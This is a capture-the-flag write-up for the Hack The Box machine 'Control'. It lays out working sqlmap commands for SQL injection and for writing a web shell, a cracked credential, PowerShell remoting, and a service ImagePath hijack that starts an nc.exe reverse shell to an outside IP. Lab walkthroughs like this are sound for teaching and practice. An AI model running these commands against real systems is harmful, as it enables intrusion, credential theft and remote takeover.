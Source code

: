 ```yaml
---
title: AI
published: true
categories: [box, sqli, linux]
---
```

![](/htb_box/img/2020-05-07-16-48-26.png)
# Control 
- [Control](#control)
  - [Enumeration](#enumeration)
  - [Exploits - Work](#exploits---work)
  - [User](#user)
  - [PrivEsc](#privesc)
  - [Root](#root)
## Enumeration 
[Nmap-File](Control-Enum.txt)

First thing to check based on the nmap is port 80. Basic website with lorem ipsum, and dirbuster does not reveal more. Source code shows an IP address regarding an ssl feature pending and the admin/login page gives an error 

> Access Denied: Header Missing. Please ensure you go through the proxy to access this page

This typically refers to the 'X-Forwarder-For' header so fire up burp and lets inject that header to the get request

![](../img/Control.md.png)

This admin page shows a table and a search feature, looks like sqli...

## Exploits - Work

Using sql injection commands an error is shown, so time to use sqlmap to make quick work of this. Save the POST for a regular search through burp and execute a sqlmap.

    sqlmap -r productName -p productName --level=3 --risk=3 --DBMS=MYSQL

This yields basically nothing, however it did work therefore we might be able to leverage this for an os-shell or possibly read/write files. 

    sqlmap -r productName -p productName --level=3 --risk=3 --DBMS=MYSQL --os-shell

OS-shell failed to handle commands and the next thing to try is file-read looking at the windows default webroot
    
    sqlmap -r productName -p productName --level=3 --risk=3 --DBMS=MYSQL --file-read='c:/Inetpub/wwwroot/admin.php'

That failed to retrieve last thing is writing a file to that same directory and verify it was sent.

    sqlmap -r productName -p productName --level=3 --risk=3 --file-write=test.php --file-dest="c:\Inetpub\wwwroot\test.php"
    do you want confirmation that the local file 'shelly.php' has been successfully written on the back-end DBMS file system ('c:/Inetpub/wwwroot/shellys.php')? [Y/n] 
    [13:01:34] [INFO] retrieved: 69
    [13:01:34] [INFO] the local file 'shelly.php' and the remote file 'c:/Inetpub/wwwroot/shellys.php' have the same size (69 B)
    [13:01:34] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.167'

That worked as file was written which leaves getting a shell or enumerating manually through a php command shell.

For the first privelege escalation dump the database passwords and allow sqlmap to decrypt the hash to get:

    hector - l33th4x0rhector

Use these credentials in powershell to execute commands as Hector

    # $SecPassword = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force
    # $Cred = New-Object System.Management.Automation.PSCredential('Fidelity\Hector', $SecPassword)
    # $s = New-PSSession -Credential $Cred
    # Invoke-Command -Session $s -ScriptBlock { type C:\Users\Hector\Desktop\user.txt }

## User 
>d8782dd01fb15b72c4b5ba77ef2d472b

## PrivEsc
Using the same methods in the first privesc execute commands to identify the weakness and based on the computer name Control I assume it is something with services as the registry key is called CurrentControlSet, time to enumerate for a weak service using the following command for different services I found RemoteRegistry, SecLogon, and BITS allowed full control

    # Invoke-Command -Session $s -ScriptBlock { C:\Windows\Temp\subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RemoteRegistry" /display }
    # Invoke-Command -Session $s -ScriptBlock { C:\Windows\Temp\subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SecLogon" /display }
    /pace =control\hector 	ACCESS_ALLOWED_ACE_TYPE-0x0

	CONTAINER_INHERIT_ACE-0x2      INHERITED_ACE-0x10             

    Key and SubKey - Type of Access:

	Full Control

    Detailed Access Flags :

	KEY_QUERY_VALUE-0x1        KEY_SET_VALUE-0x2          KEY_CREATE_SUB_KEY-0x4     

	KEY_ENUMERATE_SUB_KEYS-0x8 KEY_NOTIFY-0x10            KEY_CREATE_LINK-0x20       DELETE-0x10000             

	READ_CONTROL-0x20000       WRITE_DAC-0x40000          WRITE_OWNER-0x80000        

With that detail I changed the key for ImagePath

    # Invoke-Command -Session $s -ScriptBlock { reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RemoteRegistry" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\Temp\nc.exe -e cmd.exe 10.10.16.92 9002" /f }
    - The operation completed successfully.
    # Invoke-Command -Session $s -ScriptBlock { sc.exe qc "remoteregistry" }
    - [SC] OpenService FAILED 5:
    # Invoke-Command -Session $s -ScriptBlock { sc.exe qc "seclogon" }
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: seclogon
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Secondary Logon

Bingo! SecLogon is the winner time to modify and restart...

    # Invoke-Command -Session $s -ScriptBlock { reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\Temp\nc.exe -e cmd.exe 10.10.16.92 9002" /f }
    - The operation completed successfully.
    PS C:\windows\temp> Invoke-Command -Session $s -ScriptBlock { sc.exe qc "seclogon" }
    Invoke-Command -Session $s -ScriptBlock { sc.exe qc "seclogon" }
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: seclogon
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\Temp\nc.exe -e cmd.exe 10.10.16.92 9002
Start a listener on port 9002 and start the service

    PS C:\windows\temp> Invoke-Command -Session $s -ScriptBlock { sc.exe start "seclogon" }

![](../img/Control.md-1.png)

## Root

>8f8613f5b4da391f36ef11def4cec1b1
